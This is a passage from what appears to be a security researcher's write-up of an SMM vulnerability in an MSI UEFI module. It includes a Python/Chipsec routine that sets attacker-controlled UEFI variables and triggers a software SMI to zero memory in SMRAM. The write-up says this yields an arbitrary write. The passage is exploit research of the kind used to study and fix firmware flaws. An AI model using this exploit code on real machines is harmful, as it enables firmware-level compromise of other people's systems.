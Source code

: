 Fortunately, zeroing out an address exists in the second vulnerability using `fnResetWideString` - provided the attacker-controlled UEFI variable `ApServiceAuthority` exists and its value is zero.

```
41 63 63 65 73 73 20 64 65 6E 69 65 64 00       aAccessDenied   db 'Access denied',0 
00 00 00 00 00 00 00 00 00 00                   align 10h
```

From the SMRAM dump, I know MSIApServiceSmi module's base address is `0x4aa31000`. "Access Denied" is at `base+0x35D8`:

<div class="example">
</div>
```
def set_zeros(self, addr):
  status = self.cs.helper.set_EFI_variable(
    "WMIAcpiMemAddr",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    (addr - 0x79).to_bytes(8, "little"),
    8,
    7,
  )

  if status != 0:
    print("(set_zeros) Failed to set WMIAcpiMemAddr!")
    exit(1)

  self.cs.helper.set_EFI_variable(
    "ApServiceAuthority",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    b"\x00\x00",
    2,
    7,
  )

  if status != 0:
    print("(set_zeros) Failed to set ApServiceAuthority!")
    exit(1)

  self.interupts.send_SW_SMI(0x0, 0xE3, 0, 0, 0, 0, 0, 0, 0)

self.set_zeros(0x4aa31000+0x35D8) // base + offset
```

Resulting in:

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00       aAccessDenied   db '0','0','0','0'...
00 00 00 00 00 00 00 00 00 00                   align 10h
```

With `Access Denied` now NULL, an arbitrary write of `0x20 0x00` (wchar_t, remember?) to any address is possible. 

I mentioned `SMM_Code_Chk_En` earlier when discussing the Chipsec scan results, and it's important now.
